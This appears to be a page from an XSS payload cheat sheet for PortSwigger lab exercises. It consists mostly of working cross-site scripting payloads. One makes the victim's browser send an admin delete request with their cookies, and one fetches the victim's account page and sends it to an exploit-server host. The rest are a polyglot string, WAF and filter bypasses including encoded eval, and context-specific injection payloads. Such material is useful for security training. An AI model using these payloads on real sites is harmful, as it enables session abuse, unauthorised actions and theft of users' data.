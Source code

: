 ## PortSwigger-Specific Payloads

### Lab-Optimized Payloads
```javascript
// For admin exploit server labs:
<script>
fetch('/admin/delete?username=carlos', {credentials: 'include'})
</script>

// For data exfiltration labs:
<script>
fetch('/my-account')
.then(r=>r.text())
.then(t=>fetch('https://EXPLOIT-SERVER-ID.exploit-server.net/log?data='+encodeURIComponent(t)))
</script>
```
*Why it works:* Specifically crafted to solve PortSwigger labs that require CSRF attacks against admin users.

### Polyglot XSS (Works in Multiple Contexts)
```javascript
javascript:"/*\"/*`/*' /*</template></textarea></noscript></style></title></script>--><svg/onload=/*<html/*/onmouseover=alert()//>
```
*Why it works:* Designed to work across various contexts by breaking out of multiple potential enclosures.

### WAF/Filter Bypass Collection
```javascript
// When alert() is blocked:
<img src=x onerror=prompt(document.domain)>
<img src=x onerror=console.log(document.domain)>
<img src=x onerror=eval(String.fromCharCode(97,108,101,114,116,40,49,41))>

// When lowercase event handlers are blocked:
<img src=x OnError=alert(document.domain)>
<IMG SRC=x onERROR=alert(document.domain)>
```
*Why it works:* Uses alternative functions or encoding to bypass specific keyword filters.

## Context-Specific Cheatsheet

### Context: HTML Element Content
**Vulnerable pattern:** `<div>USER-INPUT</div>`  
**Payloads:**
```javascript
<script>alert(document.domain)</script>
<img src=x onerror=alert(document.domain)>
<svg onload=alert(document.domain)>
```
